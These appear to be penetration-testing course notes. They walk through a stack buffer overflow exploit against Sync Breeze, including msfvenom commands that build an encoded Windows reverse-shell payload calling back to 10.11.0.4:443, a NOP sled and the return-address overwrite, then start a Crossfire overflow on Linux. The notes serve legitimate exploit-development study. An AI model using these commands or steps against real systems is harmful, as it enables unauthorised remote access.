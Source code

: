 		We update the python fuzzer with the return address just found in place of the 4 Bs (but in reverse order "\x83\x0c\x09\x10", due to the Little Endian byte order of Win32 systems, where the low order byte of the number is stored in memory at the lowest address and the high order byte is stored at the highest memory address, thus the reverse order of the return address for the CPU to interpret it correctly)
	Generating shellcode with metaploit:
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c 
		This command gives us a shellcode that contains bad chars. We need then to encode the shellcode and instruct msfvenom not to use any of the bad chars
		msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
	Getting a shell:
		We add the generated shellcode to our username buffer in the python fuzzer after the filler, EIP and offset
		However, because the shellcode is encoded, it is not directly executable and is pre-pended by a decoder stub
		The job of the stub is to iterate over the encoded shellcode bytes and decode them back to their original executable format
		In order to perform this task the decoder needs to gather its address in    memory and from there look at few bytes ahead to locate the encoded shellcode that it needs to decode
		As part of the process of gathering the decoder stub location in memory, the code performs a sequence of assemby instructions, which are commonly referred to as a GetPC routine. This is a short routine that moves the value of the EIP register (sometimes referred to as the Program Counter, or PC) into another register. As with other GetPC routines, those used by shikata_ga_nai have an unfortunate side effect of writing some data at and around the top of the Stack. This eventually mangles at least a couple of bytes close to the address pointed to by the ESP register, which leads to an access violation caused by the decoder (the GetPC routine corrupts the decoder, which fails to decode the shellcode and the shellcode triggers the access violation)
		To prevent this problem to occur, we can create a wide landing pad to our JMP ESP, such that when execution lands anywhere on this pad, it will continue on to our payload. We simply precede our payload with a series of "no operation" or nop instructions ("\x90"), which do nothing else than pass execution to the next instruction. These instructions are known as "nop sled" or "nop slide"
		We add 10 nops immediately before our shellcode in the python fuzzer (the username buffer will then be as follows: buffer = filler + eip + offset + nops + shellcode)  
		Now the exploit is working as expected and a reverse shell is sent to the attacker machine on port 443
		However the exploit crashes Sync Breeze once the attacker closes the reverse shell. We can try to avoid the crash using the ExitThread api, instead of the ExitProcess api used by the metasploit reverse shell. This will alow us to run the exploit without interrupting the norml operations of the Sync Breeze server
		To instruct msfvenom to use the ExitThread function instead of the ExitProcess, we can use the following syntax: msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" 
		Let"s replace the shellcode and verify that exiting the reverse shell will not crash Sync Breeze. BINGO!

##### Linux buffer overflows
Crossfire 1.9.0 is vullnerable to a network-based buffer overflow when passing a string of more than 2000 bytes to the setup sound command. 
We will study this buffer overflow with evans debugger to debug Crossfire
Memory protection mechanisms on Linux kernels and compilers:
	DEP: Data Execution Prevention
	ASLR: Address Space Layout Randomization
	Canaries: Stack Canaries
Since the bypass of these protection mechanisms is beyond the scope of studying this buffer overflow, the Crossfire executable we will work on has not been compiled with these mechanisms enabled
Replicating the crash: 
	We create the proof of concept python exploit code from information publicly available on the Internet
	A buffer of 4379 byte is proven to crash the application
Controlling the EIP:
msf-pattern_create -l 4379
	We update the python poc and run it again against Crossfire and we find with edb that the EIP has been overwritten with the following bytes: 46367046
